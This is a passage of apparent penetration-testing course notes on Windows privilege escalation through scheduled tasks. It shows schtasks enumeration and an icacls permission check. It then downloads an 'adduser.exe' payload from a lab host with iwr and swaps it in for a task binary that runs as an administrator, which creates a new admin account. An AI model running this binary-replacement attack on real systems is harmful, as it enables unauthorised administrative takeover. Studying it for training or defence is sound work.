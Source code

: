 # Scheduled Tasks

Windows uses the *Task Scheduler* to execute various automated tasks,
such as clean-up activities or update management. On Windows, they
are called Scheduled Tasks, or *Tasks*, and are defined with one or
more triggers. A trigger is used as a condition, causing one or more
actions to be executed when met. For example, a trigger can be set
to a specific time and date, at startup, at log on, or on a Windows
*event*. An action specifies which program or script to execute. There
are various other possible configurations for a task, categorized
in the *Conditions*, *Settings*, and *General* menu tabs of a task's
property.

For us, three pieces of information are vital to obtain from a
scheduled task to identify possible privilege escalation vectors:

- As which user account (principal) does this task get executed?
- What triggers are specified for the task?
- What actions are executed when one or more of these triggers are met?

The first question helps us understand if abusing the task will
eventually lead to privilege escalation. If the task is executed
in the context of our current user, it won't lead us to elevated
privileges. However, if the task runs as *NT AUTHORITY\SYSTEM* or
as an administrative user, then a successful attack could lead us to
privilege escalation.

The second question is important because if the trigger condition
was met in the past, the task will not run again in the future and
therefore, is not a viable target for us. Additionally, if we are
in a week-long penetration test, but the task runs after this time,
we should search for another privilege escalation vector. However,
we would mention this finding in a penetration testing report for a
client.

While the first two questions help us understand if this task is
even an option for a privilege escalation attack, the answer to the
third question determines how we can perform the potential privilege
escalation. In the majority of cases, we can leverage familiar tactics
such as replacing the binary or placing a missing DLL as we did with
services in a previous Learning Unit. While we don't have a service
binary with scheduled tasks, we have programs and scripts specified by
actions.

**finding tasks that answer our questions:**

```
PS C:\Users\steve> schtasks /query /fo LIST /v
...
Folder: \Microsoft
HostName:                             CLIENTWK220
TaskName:                             \Microsoft\CacheCleanup
Next Run Time:                        7/11/2022 2:47:21 AM
Status:                               Ready
Logon Mode:                           Interactive/Background
Last Run Time:                        7/11/2022 2:46:22 AM
Last Result:                          0
Author:                               CLIENTWK220\daveadmin
Task To Run:                          C:\Users\steve\Pictures\BackendCacheCleanup.exe
Start In:                             C:\Users\steve\Pictures
Comment:                              N/A
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:                     Stop On Battery Mode
Run As User:                          daveadmin
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: Disabled
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        One Time Only, Minute
Start Time:                           7:37:21 AM
Start Date:                           7/4/2022
```

Since the executable file **BackendCacheCleanup.exe** is located
in a subdirectory of the home directory of *steve*, we should have
extensive permissions on it. Let's check our permissions on this file
with **icacls**.

```
PS C:\Users\steve> icacls C:\Users\steve\Pictures\BackendCacheCleanup.exe
C:\Users\steve\Pictures\BackendCacheCleanup.exe NT AUTHORITY\SYSTEM:(I)(F)
                                                BUILTIN\Administrators:(I)(F)
                                                CLIENTWK220\steve:(I)(F)
                                                CLIENTWK220\offsec:(I)(F)

```

As expected, we have Full Access (F) permissions, since the executable
file is in the home directory of *steve*. Now, we can use our binary
**adduser.exe** again to replace the executable file specified in the
action of the scheduled task.

To do so, we'll start a Python3 web server to serve our cross-compiled
file, **adduser.exe**, and use **iwr** to download it to CLIENTWK220.
We'll also copy the original **BackendCacheCleanup.exe** so we can
restore it after our privilege escalation attack is successful.

```
PS C:\Users\steve> iwr -Uri http://192.168.119.3/adduser.exe -Outfile BackendCacheCleanup.exe

PS C:\Users\steve> move .\Pictures\BackendCacheCleanup.exe BackendCacheCleanup.exe.bak

PS C:\Users\steve> move .\BackendCacheCleanup.exe .\Pictures\

```

> Listing 79 - Download and replace executable file BackendCacheCleanup.exe
> 

Once the scheduled task is executed again, *dave2* should be created
and added to the local *Administrators* group. After waiting a minute,
we can check if our privilege escalation attack was successful.

```
PS C:\Users\steve> net user

User accounts for \\CLIENTWK220

-------------------------------------------------------------------------------
Administrator            BackupAdmin              dave
dave2                    daveadmin                DefaultAccount
Guest                    offsec                   steve
WDAGUtilityAccount
The command completed successfully.

PS C:\Users\steve> net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
BackupAdmin
dave2
daveadmin
offsec
The command completed successfully.

```